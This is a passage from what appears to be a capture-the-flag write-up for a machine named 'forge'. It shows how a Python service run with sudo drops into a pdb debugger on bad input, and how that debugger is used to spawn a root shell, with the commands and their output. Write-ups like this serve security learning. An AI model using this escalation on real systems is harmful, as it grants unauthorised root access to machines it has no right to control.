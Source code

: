 when you raise an exception in the client side by giving unexpected input like chaeacters  you can see a pdb shell popped out in the ssh session where you stared the service

```bash
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:55865
invalid literal for int() with base 10: b'sdgg'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) 
```

now we can run any python command in here
as our service was running as sudo 
if we try to access the /bin/bash using OS library in python 
the root shell should be returned to us....
```python
import os; os.system("/bin/bash")
```

```bash
(Pdb) import os; os.system("/bin/bash")
root@forge:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@forge:/home/user# whoami
root
root@forge:/home/user# w
```

